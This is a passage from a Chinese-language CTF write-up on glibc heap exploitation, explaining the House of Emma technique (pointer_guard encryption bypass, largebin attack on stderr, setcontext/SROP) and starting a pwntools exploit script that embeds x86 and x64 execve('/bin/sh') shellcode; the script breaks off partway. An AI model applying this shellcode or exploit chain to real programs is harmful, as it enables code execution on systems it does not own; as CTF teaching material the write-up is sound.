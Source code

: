 ```c
  cookie_seek_function_t *seek;        /* Seek/tell file position.  */
  cookie_close_function_t *close;    /* Close file.  */
} cook
```

我们伪造好了的结构体如图，其__cookie字段即第一个参数

![image-20220613101736001](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220613101736001.png)

可以看到，这里write这个函数指针是有指针加密保护的，一个类异或加密，所以我们伪造也要加密一下，其值存在fs:[0x30]处

![image-20220602222322587](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220602222322587.png)

加密操作如下，将key ROR 移位 0x11 后再与指针进行异或

![image-20220602224108495](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220602224108495.png)

### House OF Emma(libc段stderr/2.34uaf)

题目是 2021 湖湘杯的题

![image-20220602221748065](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220602221748065.png)

![image-20220602222011275](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220602222011275.png)

漏洞点主要在dele，存在UAF

![image-20220602222043059](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220602222043059.png)

利用思路就是利用largebinattack写stderr指针一个可控地址，接管IO结构体，再用同样的方法覆盖pointer_guard为一个已知的内容。去布置topchunk为极小值用于assert，布置IO结构体。

和houseofkiwi一样触发，执行跳板gadget，设置rdx为srop的地址，执行setcontext，从而执行rop

```python
from pwn import *

context.log_level = "debug"
context.arch = "amd64"
p = process('./pwn')
elf = ELF("./pwn")
libc = elf.libc

def dbg():
    gdb.attach(p)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

def ROL(content, key):
    tmp = bin(content)[2:].rjust(64, '0')
```